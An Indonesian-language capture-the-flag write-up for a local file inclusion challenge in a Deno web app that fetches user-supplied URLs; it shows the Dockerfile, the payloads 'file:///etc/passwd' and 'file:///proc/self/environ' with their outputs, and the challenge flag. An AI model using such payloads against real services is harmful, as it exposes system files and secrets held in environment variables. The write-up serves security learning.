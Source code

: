 <H2>Topic: LFI<H2>

Tools: browser, text viewer

Untuk meyelesaikan ini kita harus mengerti tata folder yang di dalam server. maka dari itu mari kita lihat code yang di dalam file DockerFile sebagai contoh. 
``` docker
FROM denoland/deno:latest

RUN mkdir -p /ctf
WORKDIR /ctf
COPY ./src/ .
COPY ./makefile .

RUN useradd -d /home/ctf/ -m -p ctf -s /bin/bash ctf
RUN echo "ctf:ctf" | chpasswd

ENV FLAG="Bukan Flag Asli"
RUN deno cache main.ts

USER ctf

ENV PORT=1337
EXPOSE 1337
CMD deno run --no-prompt \
    --allow-env \
    --allow-read \
    --allow-net \
    main.ts  
```
menurut code yang di atas kita akan mempunyai folder `/ctf` sebagai working directory lalu seluruh file yang ada di dalam `./src` akan di copy ke dalam `/ctf` lalu kita juga mempunyai flag kita yang berada di dalam environment variable. Mencoba web yang diberikan kita tahu web ini berfungsi untuk fetch dari input yang berikan.

Maka dari itu karena topic nya merupakan LFI kita harus mencari tahu bagaimana caranya untuk membaca environment variable. Dengan mencari di google kita bisa mendapat info tentang environment variable dengan membaca `/proc/self/environ` yang dimana file itu berupa list dari semua environment variable di mesin linux. 

untuk fect nya biasanya kita bisa menggunakan cara `file://` mari kita coba payload pertama berupa 
```bash 
file:///etc/passwd
```
dengan output seperti ini
```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin deno:x:1993:1993::/home/deno:/bin/sh ctf:x:1994:1994::/home/ctf/:/bin/bash
```
code di atas berarti untuk membaca file /etc/paswwd, karena kita bisa membaca payload tersebut mari kita coba dengan
```bash
file:///proc/self/environ
```
yang dimana kita mendapatkan output ini
```bash
HOSTNAME=3a6abdf511de
PORT=1337
HOME=/home/ctf/
DENO_INSTALL_ROOT=/usr/local
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DENO_DIR=/deno-dir/
PWD=/ctf
FLAG=TCP1P{local_file_inclusion_with_fetch}
DENO_VERSION=1.29.1
```